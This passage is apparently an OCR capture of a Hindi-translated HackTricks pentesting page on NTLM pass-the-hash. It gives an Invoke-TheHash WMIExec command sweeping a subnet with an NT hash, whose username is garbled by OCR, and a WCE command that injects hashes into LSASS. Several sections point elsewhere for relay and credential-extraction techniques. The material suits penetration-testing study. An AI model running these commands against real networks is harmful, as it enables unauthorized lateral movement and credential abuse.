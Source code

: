 ```
```
Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administ -ty    h F6F38B793DB6A94BA04A52F1D3EE92F0
```
### [ईविल-विनआरएम पास द हैश](../../network-services-pentesting/5985-5986-pentesting-winrm.md#using-evil-winrm)

### विंडोज क्रेडेंशियल्स संपादक (डब्ल्यूसीई)

**व्यवस्थापक के रूप में चलाने की आवश्यकता है**

यह टूल mimikatz की तरही काम करेगा (एलएसएस मेमोरी को संशोधित करेगा)।
```
wce.exe -s <username>:<domain>:<hash_lm>:<hash_nt>
```
### उपयोगकर्ता नाम और पासवर्ड के साथ मैनुअल Windows रिमोट निष्पादन

{% content-ref url="../lateral-movement/" %}
[lateral-movement](../lateral-movement/)
{% endcontent-ref %}

## एक Windows होस्ट से क्रेडेंशियल्स निकालना

**अधिक जानकारी के लिए** [**एक Windows होस्ट से क्रेडेंशियल्स प्राप्त करने के बारे में आपको इस पेज को पढ़ना चाहिए**](broken-reference)**.**

## NTLM रिले और रिस्पॉन्डर

**इन हमलों को कैसे करें, इसके बारे में अधिक विस्तृत गाइड पढ़ें:**

{% content-ref url="../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md" %}
[spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)
{% endcontent-ref %}

## नेटवर्क कैप्चर से NTLM चुनौतियों को पार्स करें

**आप इसका उपयोग कर सकते हैं** [**https://github.com/mlgualtieri/NTLMRawUnHide**](https://github.com/mlgualtieri/NTLMRawUnHide)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी में काम करते हैं**? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* प्राप्त करें [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स को हमें PR के माध्यम से साझा करें** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **को सबमिट करके।**

```